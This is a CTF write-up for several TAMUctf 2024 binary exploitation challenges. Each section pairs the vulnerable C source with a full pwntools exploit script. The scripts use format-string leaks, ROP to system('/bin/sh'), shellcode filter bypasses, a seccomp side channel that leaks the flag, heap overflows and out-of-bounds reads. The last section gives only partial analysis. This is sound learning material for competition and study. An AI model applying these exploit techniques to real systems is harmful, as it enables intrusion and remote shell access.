

# 2024-04-06-TAMUctf 2024

## Admin Panel

### 源码

```c
#include <stdio.h>
#include <string.h>

int upkeep() {
	// IGNORE THIS
	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);
	setvbuf(stderr, NULL, _IONBF, 0);
}

int admin() {
	int choice = 0;
	char report[64];

	puts("\nWelcome to the administrator panel!\n");
	puts("Here are your options:");
	puts("1. Display current status report");
	puts("2. Submit error report");
	puts("3: Perform cloning (currently disabled)\n");

	puts("Enter either 1, 2 or 3: ");
	scanf("%d", &choice);

	printf("You picked: %d\n\n", choice);

	if (choice==1) {
		puts("Status report: \n");
		
		puts("\tAdministrator panel functioning as expected.");
		puts("\tSome people have told me that my code is insecure, but");
		puts("\tfortunately, the panel has many standard security measures implemented");
		puts("\tto make up for that fact.\n");

		puts("\tCurrently working on implementing cloning functionality,");
		puts("\tthough it may be somewhat difficult (I am not a competent programmer).");
	}
	else if (choice==2) {
		puts("Enter information on what went wrong:");
		scanf("%128s", report);
		puts("Report submitted!");
	}
	else if (choice==3) {
		// NOTE: Too dangerous in the wrong hands, very spooky indeed
		puts("Sorry, this functionality has not been thoroughly tested yet! Try again later.");
		return 0;

		clone();
	}
	else {
		puts("Invalid option!");
	}
}

int main() {
	upkeep();

	char username[16];
	char password[24];
	char status[24] = "Login Successful!\n";

	puts("Secure Login:");
	puts("Enter username of length 16:");
	scanf("%16s", username);
	puts("Enter password of length 24:");
	scanf("%44s", password);
	printf("Username entered: %s\n", username);
	if (strncmp(username, "admin", 5) != 0 || strncmp(password, "secretpass123", 13) != 0) {
		strcpy(status, "Login failed!\n");
		printf(status);
		printf("\nAccess denied to admin panel.\n");
		printf("Exiting...\n");
		return 0;
	}
	
	printf(status);
	admin();

	printf("\nExiting...\n");
}


```

### exploit

```python
from pwn import *

s       = lambda data               :io.send(data)
sa      = lambda delim,data         :io.sendafter(str(delim), data)
sl      = lambda data               :io.sendline(data)
sla     = lambda delim,data         :io.sendlineafter(str(delim), data)
r       = lambda num                :io.recv(num)
rl      = lambda                    :io.recvline()
ru      = lambda delims, drop=True  :io.recvuntil(delims, drop)
itr     = lambda                    :io.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
ls      = lambda data               :log.success(data)
lss     = lambda s                  :log.success('\033[1;31;40m%s --> 0x%x \033[0m' % (s, eval(s)))

context.arch      = 'amd64'
context.log_level = 'debug'
context.terminal  = ['tmux','splitw','-h','-l','130']
def start(binary,argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([binary] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.RE:
        return remote()
    else:
        return process([binary] + argv, *a, **kw)


binary = './admin-panel'
libelf = ''

if (binary!=''): elf  = ELF(binary) ; rop=ROP(binary);libc = elf.libc
if (libelf!=''): libc = ELF(libelf)

gdbscript = '''
brva 0x013E3
#continue
'''.format(**locals())

#io = start(binary)
io = remote("tamuctf.com", 443, ssl=True, sni="admin-panel")


#gdb.attach(io,gdbscript)
ru('Login:\n')
sl('admin')
ru("Enter password of length 24:\n")


# pwndbg> stack
# 00:0000│ rsp 0x7ffc9e009f10 ◂— 0x6e696d6461 /* 'admin' */
# 01:0008│     0x7ffc9e009f18 —▸ 0x7480c9517190 —▸ 0x5f505e7ac000 ◂— 0x10102464c457f
# 02:0010│     0x7ffc9e009f20 ◂— 'secretpass123'
# 03:0018│     0x7ffc9e009f28 ◂— 0x3332317373 /* 'ss123' */
# 04:0020│     0x7ffc9e009f30 ◂— 0x0
# 05:0028│     0x7ffc9e009f38 ◂— 'AAAAAAAAAAAAAAAAAAA'
# 06:0030│ rdi 0x7ffc9e009f40 ◂— 'AAAAAAAAAAA'
# 07:0038│     0x7ffc9e009f48 ◂— 0x6c75667300414141 /* 'AAA' */
# pwndbg>
# 08:0040│     0x7ffc9e009f50 ◂— 0xa21 /* '!\n' */
# 09:0048│     0x7ffc9e009f58 ◂— 0xc40269f27713c00
# 0a:0050│ rbp 0x7ffc9e009f60 —▸ 0x5f505e7ad4d0 (__libc_csu_init) ◂— push r15
# 0b:0058│     0x7ffc9e009f68 —▸ 0x7480c935009b (__libc_start_main+235) ◂— mov edi, eax
# 0c:0060│     0x7ffc9e009f70 —▸ 0x7480c94e2660 —▸ 0x7480c934f970 ◂— push r15
# 0d:0068│     0x7ffc9e009f78 —▸ 0x7ffc9e00a048 —▸ 0x7ffc9e00a62f ◂— './admin-panel'
# 0e:0070│     0x7ffc9e009f80 ◂— 0x1c94abe08
# 0f:0078│     0x7ffc9e009f88 —▸ 0x5f505e7ad34f (main) ◂— push rbp
pay  = 'secretpass123'.ljust(0x20,'\x00')
pay += f'%{6+0x9}$p%{6+0xb}$p'
sl(pay)
ru('0x')
canary = int(r(len('1df8541765823600')),16)
libc_base = int(r(14),16) - 147611

system = libc_base + libc.sym['system']
bin_sh  = libc_base + next(libc.search(b'/bin/sh'))
rdi = libc_base + 0x0000000000023a5f # pop rdi ; ret
ru('2 or 3: \n')
sl('2')

pay = b'A' * 0x48 + p64(canary) * 2
pay += p64(rdi) + p64(bin_sh) + p64(system)
sl(pay)


lss('canary')
lss('libc_base')

io.interactive()
```

## Janky

### 源码

```c
#include <string.h>
#include <stdio.h>
#include <stdlib.h>
#include <inttypes.h>
#include <capstone/capstone.h>
#include <sys/mman.h>

int upkeep() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
}

int validate(char* ptr, size_t len) {
    csh handle;
    cs_insn *insn;
    int ret = 1;

    if (cs_open(CS_ARCH_X86, CS_MODE_64, &handle) != CS_ERR_OK) {
        return 0;
    }
    size_t count = cs_disasm(handle, ptr, len, 0, 0, &insn);
    size_t success_len = 0;
    if (count > 0) {
        for (size_t j = 0; j < count; j++) {
            ret &= insn[j].mnemonic[0] == 'j';
            success_len += insn[j].size;
        }
        cs_free(insn, count);
    } else {
        return 0;
    }

    cs_close(&handle);

    ret &= len == success_len;
    return ret;
}


int main() {
    upkeep();

    char code[4096];
    size_t n = read(0, code, 0x1000);
    if (n > 0 && validate(code, n)) {
        ((void (*)())code)();
    } else {
        puts("That's not allowed! D:<");
    }
}

```

### exploit

```python
from pwn import *

s       = lambda data               :io.send(data)
sa      = lambda delim,data         :io.sendafter(str(delim), data)
sl      = lambda data               :io.sendline(data)
sla     = lambda delim,data         :io.sendlineafter(str(delim), data)
r       = lambda num                :io.recv(num)
rl      = lambda                    :io.recvline()
ru      = lambda delims, drop=True  :io.recvuntil(delims, drop)
itr     = lambda                    :io.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
ls      = lambda data               :log.success(data)
lss     = lambda s                  :log.success('\033[1;31;40m%s --> 0x%x \033[0m' % (s, eval(s)))

context.arch      = 'amd64'
context.log_level = 'debug'
context.terminal  = ['tmux','splitw','-h','-l','130']
def start(binary,argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([binary] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.RE:
        return remote()
    else:
        return process([binary] + argv, *a, **kw)


binary = './janky'
libelf = ''

if (binary!=''): elf  = ELF(binary) ; rop=ROP(binary);libc = elf.libc
if (libelf!=''): libc = ELF(libelf)

gdbscript = '''
brva 0x402C4
brva 0x403E7
'''.format(**locals())
#io = start(binary)
io = remote("tamuctf.com", 443, ssl=True, sni="janky")


#backlist = []
#for i in range(0x100):
#    io = start(binary)
#    s(bytes([i]))
#    try:
#        ru("hat's not allowed! D")
#        backlist.append(i)
#        io.close()
#    except:
#        io.close()
#        pass
#    print(backlist)
#    print(len(backlist))
#

#gdb.attach(io,gdbscript)

sc = '''
jmp $+0x4
'''
#pay  = asm(sc)
#pay += bytes([0xe9,0xc3,0x89,0xc7,0x90])
pay  = bytes.fromhex('eb02e9c3') + asm('mov edi,eax;nop')
pay += bytes.fromhex('eb02e9c3') + asm('mov rsi,rdx')
pay += bytes.fromhex('eb02e9c3') + asm('syscall;nop')
s(pay)
pause()

sl(b'\x90'*0x30+asm(shellcraft.cat('flag.txt')))

#gdb.attach(io,gdbscript)

io.interactive()
```

## Confinement

### 源码

```c
#include <stdio.h>
#include <unistd.h>
#include <seccomp.h>
#include <sys/wait.h>
#include <sys/mman.h>
#include <stdlib.h>

void init() {
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
}

char FLAG[64] = "test";
void load_flag() {
    FILE* f = fopen("flag.txt", "r");
    if (!f) {
        puts("no flag found D:");
        return;
    }
    fgets(FLAG, 64, f);
}

int main() {
    init();
    char* rwx = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_SHARED | MAP_ANONYMOUS, -1, 0);
    load_flag();
    read(STDIN_FILENO, rwx, 0x1000);

    if (fork() > 0) {
        int ret = 0;
        wait(&ret);
        if (ret != 0) {
            puts("something went wrong D:");
        } else {
            puts("adios");
        }
    } else {
        scmp_filter_ctx ctx = seccomp_init(SCMP_ACT_KILL);
        seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit_group), 0);
        seccomp_load(ctx);
        ((void (*)())rwx)();
    }
}

```

### exploit

```python
from pwn import *
import time
s       = lambda data               :io.send(data)
sa      = lambda delim,data         :io.sendafter(str(delim), data)
sl      = lambda data               :io.sendline(data)
sla     = lambda delim,data         :io.sendlineafter(str(delim), data)
r       = lambda num                :io.recv(num)
rl      = lambda                    :io.recvline()
ru      = lambda delims, drop=True  :io.recvuntil(delims, drop)
itr     = lambda                    :io.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
ls      = lambda data               :log.success(data)
lss     = lambda s                  :log.success('\033[1;31;40m%s --> 0x%x \033[0m' % (s, eval(s)))

context.arch = 'amd64'
context.log_level = 'debug'
gdbscript='''
brva 0x0222C4
'''
flag = ''
data_c = b' gigem{qawsdrftyhujkopzxcvbn}-_!/:QAZXSWEDCVFRTGBNHYUJMKIOLP1234567890'
for idx in range(1,0x50):
    for cc in data_c:
        io = remote("tamuctf.com", 443, ssl=True, sni="confinement")
        #io = process('./confinement')
        #gdb.attach(io,gdbscript)
        #print(flag)
        # gigem
        #sc = f'''
        #xor eax,eax
        #mov al,byte ptr[rsi+{idx}]
        #cmp al,{cc}
        #je loop
        #mov rax,232
        #syscall
        #loop:
        #mov rax,231
        #syscall
        #'''


        pay = b'XH-\xb6\x00\x00\x00H-\x10"\x02\x00H\x05 p\x04\x00H\x89\xc6\x90'
        pay += b'\x31\xc0\x8a\x46' + bytes([idx])
        pay += b'\x3c' + bytes([cc])
        pay += bytes.fromhex('74 09 48 c7 c0 e8 00 00 00 0f 05 48 c7 c0 e7 00 00 00 0f 05'.replace(' ',''))
        #print(disasm(pay))
        #pause()
        sl(pay)
        try:
            x = io.recvline(1,timeout=4).decode()
            print(x)
            if 'adios' in x:
                flag += chr(cc)
                print('-'*20)
                print(flag)
                print('-'*20)
                io.close()
                break
            elif 'something' in x:
                io.close()
                pass
            print(flag)
        except:
            pass
    print(flag)

```

## Five

### 源码

```c
#include <sys/mman.h>
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>

void init() {
    // ignore
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
}

int main() {
    init();
    char* input = mmap(main + 0x10000, 0x1000, 7, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    read(0, input, 5);
    puts("glhf!");
    ((void (*)())(input))();
}

```

### exploit

```python
from pwn import *

s       = lambda data               :io.send(data)
sa      = lambda delim,data         :io.sendafter(str(delim), data)
sl      = lambda data               :io.sendline(data)
sla     = lambda delim,data         :io.sendlineafter(str(delim), data)
r       = lambda num                :io.recv(num)
rl      = lambda                    :io.recvline()
ru      = lambda delims, drop=True  :io.recvuntil(delims, drop)
itr     = lambda                    :io.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
ls      = lambda data               :log.success(data)
lss     = lambda s                  :log.success('\033[1;31;40m%s --> 0x%x \033[0m' % (s, eval(s)))

context.arch      = 'amd64'
context.log_level = 'debug'
context.terminal  = ['tmux','splitw','-h','-l','130']
def start(binary,argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([binary] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.RE:
        return remote()
    else:
        return process([binary] + argv, *a, **kw)


binary = './five'
libelf = ''

if (binary!=''): elf  = ELF(binary) ; rop=ROP(binary);libc = elf.libc
if (libelf!=''): libc = ELF(libelf)

gdbscript = '''
brva 0x1213
'''.format(**locals())

io = remote("tamuctf.com", 443, ssl=True, sni="five")
#io = start(binary)
#gdb.attach(io,gdbscript)

sc = '''
xchg rdx, rsi
syscall
'''


pay = asm(sc)
s(pay)
pause()

sl(b'\x90'*0x10 + asm(shellcraft.sh()))
io.interactive()


```

## Good Emulation

### 源码

```c
#include <stdio.h>
#include <stdlib.h>

int upkeep() {
	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);
}

void print_maps() {
    FILE* f = fopen("/proc/self/maps", "r");
    char buf[0x1000];
    size_t n = fread(buf, 1, sizeof(buf), f);
    fwrite(buf, 1, n, stdout);
    fflush(stdout);
    fclose(f);
}

void vuln() {
    char buf[128];
    printf("buf is at %p\n", buf);
    gets(buf);
}

int main() {
    upkeep(); 
    puts("Look, the stack isn't RWX!");
    print_maps();
    vuln();
}

  
```

- docker

```dockerfile
FROM debian:bullseye-slim as build

ARG name

RUN apt-get update -y; apt-get install build-essential gcc-arm-linux-gnueabi git libglib2.0-dev libfdt-dev libpixman-1-dev zlib1g-dev ninja-build -y
ADD $name.c /tmp/$name.c
ADD Makefile /tmp/Makefile
RUN cd /tmp/; make all
RUN git clone --depth 1 --branch v7.1.0 https://github.com/qemu/qemu.git
RUN cd qemu && ./configure --target-list=arm-linux-user && make

FROM debian:bullseye-slim

ARG name
ARG port

RUN apt-get update -y; apt-get install socat libglib2.0-dev -y
COPY --from=build /tmp/$name /pwn/$name
COPY --from=build /qemu/build/qemu-arm /usr/bin/qemu-arm
COPY flag.txt /pwn/flag.txt
WORKDIR /pwn

EXPOSE $port

RUN echo "exec socat -s TCP-LISTEN:$port,reuseaddr,fork EXEC:'timeout -k 1 60 qemu-arm /pwn/$name',stderr" > /pwn/docker_entrypoint.sh

ENTRYPOINT ["sh", "/pwn/docker_entrypoint.sh"]

```

### exploit

‍

远程环境是 arm 由于是 用 qemu 启动 ，stack 就是可以执行的，再利用 它给的 stack 地址 就可以 ret2shellcode了

‍

```python
from pwn import *

s       = lambda data               :io.send(data)
sa      = lambda delim,data         :io.sendafter(str(delim), data)
sl      = lambda data               :io.sendline(data)
sla     = lambda delim,data         :io.sendlineafter(str(delim), data)
r       = lambda num                :io.recv(num)
rl      = lambda                    :io.recvline()
ru      = lambda delims, drop=True  :io.recvuntil(delims, drop)
itr     = lambda                    :io.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
ls      = lambda data               :log.success(data)
lss     = lambda s                  :log.success('\033[1;31;40m%s --> 0x%x \033[0m' % (s, eval(s)))

context.arch      = 'arm'
context.log_level = 'debug'
context.terminal  = ['tmux','splitw','-h','-l','130']
def start(binary,argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([binary] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.RE:
        return remote()
    else:
        return process([binary] + argv, *a, **kw)


binary = './good-emulation'
libelf = ''

if (binary!=''): elf  = ELF(binary) ; rop=ROP(binary);libc = elf.libc
if (libelf!=''): libc = ELF(libelf)


gdbscript = '''
#continue
'''.format(**locals())

#io = start(binary)
#io = process(['qemu-arm','./good-emulation'])
io = remote("tamuctf.com", 443, ssl=True, sni="good-emulation")

mprotect = 0x002FBE0

#gdb.attach(io)
ru('buf is at ')
stack = int(rl(),16)
lss('stack')
pay = b'A' * 0x84
pay += p32(stack+0x88)
pay += asm(shellcraft.sh())
sl(pay)
io.interactive()

```

## Shrink

### 源码

```c
#include <cstdio>
#include <unistd.h>
#include <string>

void upkeep() {
	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);
}

void win() {
    char flag[64] = {0};
    FILE* f = fopen("flag.txt", "r");
    if (!f) {
        perror("missing flag.txt");
        return;
    }
    fgets(flag, 64, f);
    puts(flag);
}

struct Username {
    std::string buf = "this_is_a_default_username";
    size_t len = 26;
    void print() {
        puts(buf.data());
    }
    void change() {
        puts("Enter your new name: ");
        int i = read(0, (void*)buf.data(), len);
        if (i > 0) {
            buf.resize(i);
            buf.shrink_to_fit();
        }
    }
    void add_exclamation() {
        buf += "!";
        len += 1;
    }
};

void vuln() {
    Username username;
    int choice = 0;
    bool going = true;

    while (going) {
        puts("Select an option:");
        puts("1. Print username");
        puts("2. Change username");
        puts("3. Make username more exciting");
        puts("4. Exit");
        scanf("%d", &choice);
        switch (choice) {
            case 1:
                username.print();
                break;
            case 2:
                username.change();
                break;
            case 3:
                username.add_exclamation();
                break;
            default:
                going = false;
                break;
        }

    }
}

int main() {
	upkeep();
    vuln();
}

```

### exploit

```python
from pwn import *

s       = lambda data               :io.send(data)
sa      = lambda delim,data         :io.sendafter(str(delim), data)
sl      = lambda data               :io.sendline(data)
sla     = lambda delim,data         :io.sendlineafter(str(delim), data)
r       = lambda num                :io.recv(num)
rl      = lambda                    :io.recvline()
ru      = lambda delims, drop=True  :io.recvuntil(delims, drop)
itr     = lambda                    :io.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
ls      = lambda data               :log.success(data)
lss     = lambda s                  :log.success('\033[1;31;40m%s --> 0x%x \033[0m' % (s, eval(s)))

context.arch      = 'amd64'
context.log_level = 'debug'
context.terminal  = ['tmux','splitw','-h','-l','130']
def start(binary,argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([binary] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.RE:
        return remote()
    else:
        return process([binary] + argv, *a, **kw)


binary = './shrink'
libelf = ''

if (binary!=''): elf  = ELF(binary) ; rop=ROP(binary);libc = elf.libc
if (libelf!=''): libc = ELF(libelf)

gdbscript = '''
b *0x401450
'''.format(**locals())

#io = start(binary)
io = remote("tamuctf.com", 443, ssl=True, sni="shrink")


def show():
    ru('Exit\n')
    sl('1')
def edit(text):
    ru('Exit\n')
    sl('2')
    ru('new name: \n')
    sl(text)
def gift():
    ru('Exit\n')
    sl('3')

#gdb.attach(io,gdbscript)
pay = 'A' * 0x1a
edit(pay)

for i in range(0x30):
    gift()


pay = b'A'*0x30 + p64(0x0401256)
edit(pay)

edit('A')

pay = b'A'*0x30 + p64(0x0401256) * 3
edit(pay)

ru('Exit\n')
sl('0')
io.interactive()
```

## Super Lucky

### 源码

```c
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>
#include <stdio.h>

int lucky_numbers[777]; 

void init() {
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);

    volatile int seed;
    int fd = open("/dev/urandom", O_RDONLY);
    read(fd, (char*)&seed, sizeof(seed));
    read(fd, (char*)&lucky_numbers, sizeof(lucky_numbers));
    srand(seed);
    seed = 0;

    close(fd);
}

int main() {
    init();

    puts("I'll give you a flag if you can guess the next 7 calls to rand(). As a benevolent level creator, I'll give you 21 free lucky numbers! Take your pick 0-777:");
    for (int i = 0; i < 21; ++i) {
        unsigned long pick = 0;
        scanf("%lu", &pick);
        printf("Here's lucky number #%d: %d\n", i + 1, lucky_numbers[pick]);
    }

    int all_correct = 1;

    for (int i = 0; i < 7; ++i) {
        int guess = 0;
        printf("Enter guess #%d:\n", i + 1);
        scanf("%d", &guess);
        all_correct &= guess == rand();
    }

    if (all_correct) {
        char buf[64];
        FILE* f = fopen("flag.txt", "r");
        fgets(buf, sizeof(buf), f);
        puts(buf);
    } else {
        puts("That's not correct :(");
    }
}

```

### exploit

‍

- 通过 OOB 读取 `_IO_2_1_stdout_` 获取libc base
- 然后再从 libc 里读取  libc 上 某个 数组 里的值 (具体是啥可以在调试的时候知道) 就可以预测了

‍

```python
from pwn import *

s       = lambda data               :io.send(data)
sa      = lambda delim,data         :io.sendafter(str(delim), data)
sl      = lambda data               :io.sendline(data)
sla     = lambda delim,data         :io.sendlineafter(str(delim), data)
r       = lambda num                :io.recv(num)
rl      = lambda                    :io.recvline()
ru      = lambda delims, drop=True  :io.recvuntil(delims, drop)
itr     = lambda                    :io.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
ls      = lambda data               :log.success(data)
lss     = lambda s                  :log.success('\033[1;31;40m%s --> 0x%x \033[0m' % (s, eval(s)))

context.arch      = 'amd64'
context.log_level = 'debug'
context.terminal  = ['tmux','splitw','-h','-l','130']
def start(binary,argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([binary] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.RE:
        return remote()
    else:
        return process([binary] + argv, *a, **kw)


binary = './super-lucky'
libelf = ''

if (binary!=''): elf  = ELF(binary) ; rop=ROP(binary);libc = elf.libc
if (libelf!=''): libc = ELF(libelf)

gdbscript = '''
b *0x0401352
'''.format(**locals())

io = start(binary)

#gdb.attach(io,gdbscript)

ru('Take your pick 0-777:\n')
#for i in range(21):
sl(str(0xFFFFFFFFFFFFFFFF-3))
ru(': ')
stdin1 = int(rl())

if stdin1<0:
    stdin1 = 0x100000000 + stdin1

sl(str(0xFFFFFFFFFFFFFFFF-2))
ru(': ')
stdin2 = int(rl()) << (4*8)
stdin = stdin1 + stdin2
libc_base = stdin -1812992 #libc.sym['_IO_2_1_stdin_']
environ = libc_base + libc.sym['environ']


# rcx_offset  1810884 rcx           eax  = rcx
# rdx_offset  1810896 rdx           eax += rdx
# shr    eax, 1

def leak_data(addr):
    offset = (addr - 0x404040) // 4
    sl(str(offset))
    ru(': ')
    tmp = ru('\n')
    print(tmp)
    dat = int(tmp)
    print(dat)
    if dat < 0:
        dat += 0x100000000
    print(dat)
    return dat

rcx_offset =  1810884
rdx_offset =  1810896

rcx_data = []
rdx_data = []

print('start........')
for i in range(7):
    rcx = libc_base + rcx_offset + (i*4)
    rdx = libc_base + rdx_offset + (i*4)
    rcx_data.append(leak_data(rcx))
    rdx_data.append(leak_data(rdx))
print('rcx = ',rcx_data)
print('rdx = ',rdx_data)


for i in range(5):
    sl('1')
    ru('\n')


#gdb.attach(io,gdbscript)

def me_rand(rcx_, rdx_,i):
    eax = rcx_ + rdx_
    eax = eax & 0xFFFFFFFF
    print('add',eax)
    rcx_data.append(1)
    rcx_data[i+3] = eax
    eax = eax >> 1
    eax = eax & 0xFFFFFFFF
    print(hex(eax))
    return eax
  


for i in range(0,len(rcx_data)):
    ru('Enter guess #'+str(i+1)+':')
    print('rcx ',hex(rcx_data[i]),rcx_data[i])
    print('rdx ',hex(rdx_data[i]),rdx_data[i])
    sl(str(me_rand(rcx_data[i], rdx_data[i],i)))# send number


lss('libc_base')
io.interactive()
```

‍

## pwn-index

‍

### 源码

‍

```c
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

void init() {
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
}

typedef char Message[100];

Message MESSAGES[3] = {"Are ya winnin', son?", "Good luck getting the flag!", "You got this!"};

char* get_message(unsigned long i) {
    Message* ret = &MESSAGES[i];
    Message* start = &MESSAGES[0];
    Message* end = &MESSAGES[2];
    if (ret < start || end < ret) {
        puts("That's not allowed!");
        exit(0);
    }
    return ret;
}

unsigned long get() {
    unsigned long i = 0;
    scanf("%lu", &i);
    return i;
}

void win() {
    asm("andq $-16, %rsp");
    char buf[64];
    FILE* f = fopen("flag.txt", "r");
    fgets(buf, sizeof(buf), f);
    puts(buf);
}

void vuln() {
    while (1) {
        puts("\n1. Edit a message");
        puts("2. Read a message");
        puts("3. Exit\n");
        unsigned long choice = get();
        if (choice == 1) {
            puts("Enter an index to edit (0-2):");
            char* ptr = get_message(get());
            puts("Enter your new message:");
            memset(ptr, 0, 100);
            read(STDIN_FILENO, ptr, 99);
        }  else if (choice == 2) {
            puts("Enter an index to read (0-2):");
            Message tmp;
            strcpy(tmp, get_message(get()));
            puts(tmp);
        } else {
            break;
        }
    }
}

int main() {
    init();
    vuln();
}

```

‍

- 密码题？？

- 比赛中就差这一题就AK

### 思路

‍

- 索引到的地址只能在这个访问 正常也就这 0 1 2 3个

```python
0x404020 # + 0	# idx 0
#0x404084 # +100# idx 1
0x4040e8 # +200	# idx 2
0x40414c # +300 end
```

‍

- 传入的 idx  是一个 int64

```python
__int64 get_idx()
{
  __int64 v1; // [rsp+8h] [rbp-8h] BYREF

  v1 = 0LL;
  __isoc99_scanf("%lu", &v1);
  return v1;
}
```

‍

- emmm

‍

用着可以跑出其他的偏移

```python
m = 1 << 64


start = 0x404020
end   = 0x40414c

blist = [0x404020, 0x404084, 0x4040e8]

new_idx = []

for i in range(start, end, 100):

    d = m + (end - i)
    d = d // 100

    c = d * 100
    c = c & (m-1)
    c = c + start
    if(c > start and c < end):
        if c not in blist and d not in new_idx:
            new_idx.append(d)
            print(new_idx)

for i in new_idx:
    print(hex(i))

# [184467440737095519, 184467440737095518, 184467440737095517]
```

‍

‍



‍

‍

‍

```python
https://github.com/tamuctf/tamuctf-2024/tree/master/pwn/index
```
